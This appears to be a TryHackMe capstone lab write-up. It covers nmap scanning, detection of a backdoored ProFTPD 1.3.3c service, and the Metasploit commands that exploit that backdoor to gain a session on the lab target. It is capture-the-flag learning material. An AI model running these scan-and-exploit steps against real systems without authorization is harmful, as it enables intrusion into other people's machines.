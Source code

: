 # TryHackMe
  https://tryhackme.com/jr/mirolabscapstone
  
<img src="THM_capstone1.png"
     alt="THM_capstone1_icon"
     style="float: left; margin-right: 10px;" />

# Connection

`openvpn computershane\(1\).ovpn'

LHOST-`10.2.70.52` 

RHOST-`10.10.246.145`


# Scan

`nmap 10.10.246.145 `

Open ports found 

```21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

# Enumerate

`nmap -A -sV --script vuln 10.10.246.145`

-A for agressive scan
-sV for version detection
--script vuln for vulnerabilities

`21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.`

# Exploit

`msfconsole`

`search proftp`

`use exploit/unix/ftp/proftpd_133c_backdoor`

`show options`

set my RHOSTS to 10.10.246.145

set payload 2

`exploit`

failed

`set payload 0`

`exploit`

control-Z background session then Y

`run`










